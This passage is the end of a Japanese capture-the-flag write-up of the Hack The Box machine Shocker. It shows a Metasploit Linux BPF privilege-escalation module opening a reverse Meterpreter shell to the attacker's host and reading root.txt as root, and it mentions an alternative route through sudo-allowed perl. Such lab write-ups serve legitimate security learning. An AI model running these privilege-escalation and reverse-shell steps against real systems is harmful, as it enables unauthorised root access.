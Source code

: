 ```
   ----   ---------------  --------  -----------
   LHOST  10.0.3.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set lhost 10.10.14.13
lhost => 10.10.14.13
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Writing '/tmp/.o6n64nkI' (34784 bytes) ...
[*] Writing '/tmp/.NNAJke2W' (207 bytes) ...
[*] Launching exploit ...
[*] Sending stage (985320 bytes) to 10.10.10.56
[*] Cleaning up /tmp/.NNAJke2W and /tmp/.o6n64nkI ...
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.56:52842) at 2020-02-27 11:56:36 -0500

meterpreter > shell
Process 1882 created.
Channel 1 created.
whoami
root
pwd
/home/shelly
cd /root
ls
root.txt
cat root.txt
```

root が取れました。

## 終わりに
今回は他の人の writeup を見ずに root までいけました。
（実は完全に見なかったのは初めて）
これからも精進します！

## 他の方法
https://xd3m0n.xyz/htb_shocker/
- `sudo -l`で `perl` を password なしで root 権限で使えることを見つけてそこから攻めてる. スマート

 
